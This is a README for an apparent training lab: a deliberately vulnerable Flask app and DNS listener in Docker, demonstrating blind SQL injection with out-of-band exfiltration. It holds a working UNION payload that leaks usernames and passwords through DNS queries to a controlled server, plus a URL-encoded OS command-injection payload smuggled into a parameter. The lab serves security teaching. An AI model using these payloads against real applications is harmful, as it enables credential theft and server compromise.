 # Blind SQLi Lab with DNS Exfiltration (Out-of-Band)

This lab simulates a vulnerable web application that is susceptible to blind SQL injection. The application uses user input to perform DNS resolution on a hostname retrieved from a database, allowing for **out-of-band (OOB)** data exfiltration via DNS queries to a controlled server.

## 🧪 Lab Components

- **Flask Web App (`/web`)**: 
  - A vulnerable endpoint `/search?id=<number>` executes an unsanitized SQL query.
  - It uses `nslookup` to resolve a hostname retrieved from the database.
  - Optional parameter: `set-dns=<IP>` to specify a custom DNS server for resolution.

- **DNS Listener (`/dns-server`)**:
  - A Python script that runs a simple UDP DNS server and logs incoming raw DNS queries for analysis.

- **Docker**:
  - Docker Compose is used to run both services in isolated containers.

---

## 🛠️ How to Run the Lab

### Clone this repo

	git clone https://github.com/zinzloun/blindSQLi-DNS-OOB.git
 	cd cd blindSQLi-DNS-OOB

### Run containers

	sudo docker-compose build --no-cache
 	sudo docker-compose up                                     
	Creating network "blindsqli-dns-oob_dns-net" with the default driver
	Creating blindsqli-dns-oob_dns-server_1 ... done
	Creating blindsqli-dns-oob_web_1        ... done
	Attaching to blindsqli-dns-oob_web_1, blindsqli-dns-oob_dns-server_1
	web_1         |  * Serving Flask app 'app'
	web_1         |  * Debug mode: off
	web_1         | WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
	web_1         |  * Running on all addresses (0.0.0.0)
	web_1         |  * Running on http://127.0.0.1:5000
	web_1         |  * Running on http://172.20.53.10:5000
	web_1         | Press CTRL+C to quit

	
This will:

- Start the vulnerable web app at http://localhost:8080

- Start the DNS listener: default port UDP 53, internal docker net IP 172.20.53.53


### Payloads

- Using default DNS: this performs a lookup to www.google.it using default DNS -> OK
	
	  /search?id=1
	
Check web app console log

	web_1         | Server:         127.0.0.11
	web_1         | Address:        127.0.0.11#53
	web_1         | 
	web_1         | Non-authoritative answer:
	web_1         | Name:   www.google.it
	web_1         | Address: 216.58.204.227
	web_1         | Name:   www.google.it
	web_1         | Address: 2a00:1450:4002:415::2003
	web_1         | 
	web_1         | 172.20.53.1 - - [09/Jul/2025 08:31:51] "GET /search?id=1 HTTP/1.1" 200 -
	
 - Using custom DNS: this perform the same lookup query using our controlled DNS to resolve it -> Error (but it's expected)

	   /search?set-dns=172.20.53.53&id=1

Check web app console log

 	web_1         | 172.20.53.1 - - [09/Jul/2025 08:31:51] "GET /search?id=1 HTTP/1.1" 200 -
	web_1         | ;; communications error to 172.20.53.53#53: timed out
	web_1         | ;; communications error to 172.20.53.53#53: timed out
	web_1         | ;; communications error to 172.20.53.53#53: timed out
	web_1         | ;; no servers could be reached
	web_1         | 
	web_1         | 172.20.53.1 - - [09/Jul/2025 08:38:27] "GET /search?set-dns=172.20.53.53&id=1 HTTP/1.1" 200 -

	
Indeed check logged queries on our DSN container

	sudo docker exec -it blindsqli-dns-oob_dns-server_1 /bin/bash                                      
	root@004315a2105c:/app# cat dns_log.txt 

	2025-07-09 08:38:12,913 - DNS query from ('172.20.53.10', 41104): RAW = 942b010000010000000000000377777706676f6f676c650269740000010001
	2025-07-09 08:38:17,917 - DNS query from ('172.20.53.10', 41908): RAW = 942b010000010000000000000377777706676f6f676c650269740000010001
	2025-07-09 08:38:22,921 - DNS query from ('172.20.53.10', 57648): RAW = 942b010000010000000000000377777706676f6f676c650269740000010001

 Decode the raw query:

 	root@004315a2105c:/app# exit
	[~/blindSQLi-DNS-OOB] python decode-raw-dnsq.py 942b010000010000000000000377777706676f6f676c650269740000010001        
	[+] Plain domain value: www.google.it

## 💥Exploitation 
Knowing that we can control the DNS parameter for nslookup and assuming that a users table is also present in the DB - how could it be missing? 😊  - we can use the following payload to exfiltrate sensitive information:

	/search?set-dns=172.20.53.53&id=1 UNION SELECT (SELECT username || '-' || password FROM users WHERE id=1)
 Check again the logged query

 	[~/blindSQLi-DNS-OOB] sudo docker exec -it blindsqli-dns-oob_dns-server_1 /bin/bash                              
	root@004315a2105c:/app# cat dns_log.txt 
	2025-07-09 08:38:12,913 - DNS query from ('172.20.53.10', 41104): RAW = 942b010000010000000000000377777706676f6f676c650269740000010001
	2025-07-09 08:38:17,917 - DNS query from ('172.20.53.10', 41908): RAW = 942b010000010000000000000377777706676f6f676c650269740000010001
	2025-07-09 08:38:22,921 - DNS query from ('172.20.53.10', 57648): RAW = 942b010000010000000000000377777706676f6f676c650269740000010001
	2025-07-09 08:50:39,508 - DNS query from ('172.20.53.10', 60256): RAW = 697e010000010000000000001161646d696e2d73757065727365637265740000010001
	2025-07-09 08:50:44,513 - DNS query from ('172.20.53.10', 49822): RAW = 697e010000010000000000001161646d696e2d73757065727365637265740000010001
	2025-07-09 08:50:49,517 - DNS query from ('172.20.53.10', 40392): RAW = 697e010000010000000000001161646d696e2d73757065727365637265740000010001
	root@004315a2105c:/app# 
Decode the last entries

 	root@004315a2105c:/app# exit
  	[~/blindSQLi-DNS-OOB] python decode-raw-dnsq.py 697e010000010000000000001161646d696e2d73757065727365637265740000010001                                                             
	[+] Plain domain value: admin-supersecret

## ❓ Why this Lab?
Incredible enough I found this logic implemented in a real app. The parameter where passed as JSON object in the body request to an API, but the logic was the same as presented in this lab, actually:
- no inpunt parameters validation
- control nslookup DNS server

You can eventually automate the process using SQLMap. You can find a good resource at https://blog.cyberadvisors.com/technical-blog/unblinding-blind-sql-injection-using-dns-exfiltration

## Useful docker commands

### Stop containers

	sudo docker compose down 
	
### Rebuild containers
	
	sudo docker-compose build --no-cache

## 💡 Additional vulnerability
Actually the application is also vulnerable to blind OS command injection. Try for istance the following payload:

	/search?set-dns=172.20.53.53%20%26%20touch%20%2Ftmp%2Fa&id=1
Verify that /tmp/a file is present inside the web container
	
 	[~/blindSQLi-DNS-OOB] sudo docker exec -it blindsqli-dns-oob_web_1 /bin/bash
	root@f14b578ea18d:/app# ls -al /tmp/a 
	-rw-r--r-- 1 root root 0 Jul 10 07:04 /tmp/a

 

